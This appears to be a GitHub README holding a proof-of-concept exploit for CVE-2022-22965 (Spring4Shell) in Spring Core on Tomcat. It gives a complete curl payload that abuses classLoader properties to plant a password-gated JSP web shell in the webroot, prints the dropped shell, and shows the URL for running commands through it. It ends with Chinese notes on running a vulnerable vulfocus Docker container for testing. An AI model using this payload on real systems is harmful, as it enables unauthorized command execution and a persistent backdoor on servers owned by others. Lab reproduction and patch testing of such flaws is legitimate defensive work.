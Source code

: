 ## CVE-2022-22965: Spring-Core-Rce 

## POC

```bash
curl -v -H "c1: runtime" -H "c2: <%" -H "suffix: %>//" -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=" http://target:8080/path
```

The file is dropped to disk:

```
cat ./apache-tomcat-8.5.77/webapps/ROOT/tomcatwar.jsp 
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))3D-1){ out.println(new String(b)); } } -
```

shell: `target/tomcatwar.jsp?pwd=j&cmd=whoami`

ROOT.war 来自白帽汇的 vulfocus 镜像,直接放在 jdk9+ 的 tomcat 环境部署即可启动测试.

也可以自行使用 docker pull

```
docker run -d -p 8082:8080 --name springrce -it vulfocus/spring-core-rce-2022-03-29
```

然后访问 本地的 8082 端口，显示 OK,即运行成功


本地测试写入的文件截图:

<img width="1318" alt="image" src="https://user-images.githubusercontent.com/18260135/160864865-b1a1e71f-d462-45cf-9fbb-f1f20250c206.png">

Reference：https://github.com/jbaines-r7/spring4shell_vulnapp 
